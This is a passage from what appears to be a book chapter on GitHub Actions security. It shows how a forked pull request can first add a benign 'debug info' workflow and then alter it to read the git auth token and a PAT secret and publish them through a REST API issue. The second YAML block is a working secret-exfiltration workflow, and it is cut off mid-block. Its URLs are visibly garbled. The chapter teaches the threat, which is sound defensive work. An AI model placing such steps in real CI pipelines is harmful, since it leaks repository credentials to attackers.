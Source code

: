 After an initial commit, this code will execute and build the Java source code.

Also, for future work, I’ll go ahead and generate a personal access token and add it as a secret named *PAT*.

Suppose someone else comes along and forks this repository to make some changes. They then add some code to gather debug information and automatically report an issue if there is a failure. The added code is shown here:

```yml
permissions:
  ...
  issues: write

    - name: Get Debug Info
      run: |
        echo "DEBUG_VALUES=$(git
          --work-tree=/home/runner/work/pr-demo/pr-demo config
          --get remote.origin.url)" >> $GITHUB_ENV
        echo "DEBUG_VALUES2=${{ github.workflow }}" >> $GITHUB_ENV

    - name: Create issue using REST API
      if: always() && failure()
      run: |
        curl --request POST \
          --url https:/https://learning.oreilly.com/api.github.com/repos/${{ github.repository }}/issues \
          --header 'authorization: Bearer ${{ secrets.GITHUB_TOKEN }}' \
          --header 'content-type: application/json' \
          --data '{
            "title": "PR evaluated successfully",
            "body": "DEBUG_VAL1: ${{ env.DEBUG_VALUES }}
                     DEBUG_VAL2: ${{ env.DEBUG_VALUES2 }}"
            }' \
          --fail
```

I’ll talk more about what this code does in a moment. But assume that the user who forked the code now opens a pull request back to the original repository. GitHub will prompt to approve running workflows for first-time contributors. But nothing about this code looks dangerous, so assume that the approval is granted. The code will run cleanly, and then the merge request can be completed and the code will be merged in. So far so good.

Now, suppose the user who forked the code makes some simple changes, as follows. Can you tell what the differences are, and what the code will now do?

```yml
permissions:
  ...
  issues: write

    - name: Get Debug Info
      run: |
        echo "DEBUG_VALUES=$(git
          --work-tree=/home/runner/work/pr-demo/pr-demo config
          --get http.[token value location])" >> $GITHUB_ENV
        echo "DEBUG_VALUES2=${{ secrets.PAT }}" >> $GITHUB_ENV

    - name: Create issue using REST API
      if: always()
      run: |
        curl --request POST \
          --url https:/https://learning.oreilly.com/api.github.com/repos/${{ github.repository }}/issues \
          --header 'authorization: Bearer ${{ secrets.GITHUB_TOKEN }}' \
          --header 'content-type: application/json' \
          --data '{
```